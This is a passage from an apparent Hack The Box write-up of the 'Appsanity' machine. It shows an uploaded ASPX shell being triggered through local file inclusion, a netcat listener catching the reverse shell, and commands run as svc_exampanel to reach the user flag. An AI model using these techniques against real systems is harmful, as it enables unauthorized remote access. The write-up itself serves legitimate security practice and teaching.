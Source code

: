 We can scroll to the left of the table, and we see a hyperlink for our upload:

![](Images/linkpreview.png)

`https://portal.meddigi.htb/ViewReport.aspx?file=62082e85-664a-4fc8-8eff-c0735d136fe0_shell.aspx`

We can try to access this file using LFI: Note that instead of using the domain name `portal.meddigi.htb`, we must continue using 127.0.0.1:8080.

![](Images/rce1.png)

On my listener port, I receive a connection:
```
┌──(kali㉿kali)-[~/Documents/Appsanity]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.14.194] from (UNKNOWN) [10.10.11.238] 58166
Spawn Shell...
Microsoft Windows [Version 10.0.19045.3570]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
appsanity\svc_exampanel
```

We now have a reverse shell, as user `svc_exampanel`. At this point we can acquire the user flag:
```
c:\windows\system32\inetsrv>dir C:\Users\svc_exampanel\Desktop
dir C:\Users\svc_exampanel\Desktop
 Volume in drive C has no label.
 Volume Serial Number is F854-971D

 Directory of C:\Users\svc_exampanel\Desktop

10/18/2023  05:41 PM    <DIR>          .
10/18/2023  05:41 PM    <DIR>          ..
11/03/2023  03:40 PM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,664,117,760 bytes free
```
